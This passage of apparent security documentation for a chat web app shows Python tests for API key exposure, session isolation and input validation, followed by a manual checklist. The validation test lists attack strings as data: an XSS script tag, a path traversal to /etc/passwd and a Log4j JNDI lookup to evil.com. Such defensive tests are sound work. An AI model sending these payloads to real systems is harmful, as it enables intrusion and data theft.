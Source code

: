 ### Automated Security Tests
```python
def test_api_key_not_exposed():
    """Verify API keys never appear in responses"""
    # Store API key
    client.post('/test_openrouter', json={'api_key': 'test-key-123'})
    
    # Check all endpoints don't expose key
    endpoints = ['/', '/get_session_data', '/chat']
    for endpoint in endpoints:
        response = client.get(endpoint)
        assert 'test-key-123' not in response.get_data(as_text=True)

def test_session_isolation():
    """Verify sessions cannot access each other's data"""
    # Create two sessions with different API keys
    with client.session_transaction() as sess1:
        sess1['secure_session_id'] = 'session-1'
    
    with client.session_transaction() as sess2: 
        sess2['secure_session_id'] = 'session-2'
    
    # Verify isolation
    client.post('/test_openrouter', json={'api_key': 'key-1'})
    # Switch to session 2
    response = client.get('/get_session_data')
    assert response.json['has_api_key'] == False  # Should not see session 1's key

def test_input_validation():
    """Test malicious input handling"""
    malicious_inputs = [
        '<script>alert("xss")</script>',
        'x' * 10000,  # Oversized input
        '../../../etc/passwd',  # Path traversal
        '${jndi:ldap://evil.com}',  # Log4j style injection
    ]
    
    for malicious_input in malicious_inputs:
        response = client.post('/chat', json={'message': malicious_input})
        # Should either reject or safely handle
        assert response.status_code in [200, 400]
```

### Manual Security Verification
1. **Browser Dev Tools**: Verify no API keys in localStorage, sessionStorage, or cookies
2. **Network Tab**: Confirm API keys never transmitted to frontend
3. **Cross-Origin Testing**: Verify CSRF protection blocks malicious sites
4. **Session Testing**: Multiple browser tabs should have isolated conversations

## Security Incident Response
